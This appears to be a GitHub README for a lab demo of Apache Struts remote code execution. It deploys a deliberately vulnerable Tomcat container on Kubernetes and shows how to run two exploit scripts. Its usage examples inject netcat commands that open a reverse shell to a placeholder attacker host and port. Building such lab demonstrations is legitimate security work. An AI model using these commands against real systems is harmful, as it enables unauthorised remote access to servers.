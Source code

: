 # Struts Remote Code Execution Demo
Modified scripts that demonstrate remote code execution (RCE) vi command injection into HTML traffic on old version of Apache Tomcat.   
The yaml file will deploy vulnerable container running struts super-app via apache tomcat ver 8.5.29 java website.
The image is pulled via `https://hub.docker.com/repository/docker/seanrickerd/struts`

## To deploy the container via yaml file to kubernetes cluster:
`kubectl create namespace struts`

`kubectl create -f struts.yaml -n struts`

A service will be created that exposes the super-app website.

To get the ip address of the service:
`kubectl get svc,pods -n struts`
The Apache console will be accessible via `http://<service-ip-address>:8080/`

To access the super-app website, also use the service IP address on port 8080/super-app/orders

*Example:* `http://<:8080/super-app/orders`

Use the IP address from the website with the python scripts to inject a netcat command and sh command to establish a reverse shell from the container.

**struts1.py example**: (insert your own IP addresses / port for the reverse shell)
`python3 struts1.py http://xxx.xxx.xxx.xxx:8080/super-app/orders/3 'nc -nv 123.456.789.001 1337 -e /bin/sh`'

**struts-pwn2.py example:**
`python struts-pwn2.py --exploit --url 'http://xxx.xxx.xxx.xxx:8080/super-app/orders/3' -c 'nc -nv 123.456.789.100 1337 -e /bin/sh'`
